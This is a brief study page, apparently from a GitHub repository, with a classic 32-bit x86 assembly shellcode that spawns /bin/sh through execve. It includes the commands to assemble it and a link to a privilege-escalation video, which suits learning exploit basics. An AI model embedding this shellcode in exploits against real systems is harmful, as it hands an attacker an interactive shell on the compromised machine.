 # ShellCode

Sample Assembly Code

```nasm
section .text
  global _start

_start:
  xor eax, eax
  push eax
  push 0x68732f2f
  push 0x6e69622f       ; //bin/sh
  mov ebx, esp          ; stack pointer to register
  mov ecx, eax
  mov al, 0xb
  int 0x80
```

Compilation

```shell
nasm -f elf -o shell.o shell.asm
ld -o shell shell.o
```

# Reference
- [Priviledge Escalation](https://www.youtube.com/watch?v=HSlhY4Uy8SA&ab_channel=LiveOverflow)
